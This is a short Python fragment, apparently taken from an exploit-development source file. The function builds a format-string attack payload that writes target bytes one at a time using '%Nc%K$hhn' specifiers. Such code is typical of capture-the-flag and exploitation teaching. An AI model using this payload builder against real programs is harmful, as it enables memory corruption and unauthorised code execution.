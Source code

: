 ```python
    adjust = ADJUST

    for byte in range(0, max_write):
        current_byte = (bytes[byte] - adjust) if (bytes[byte] - adjust >= 0) else (bytes[byte] - adjust) + WRAP
        payload += f'%{current_byte}c%{start_byte + byte}$hhn'.encode()
        adjust = bytes[byte]

    return payload
```

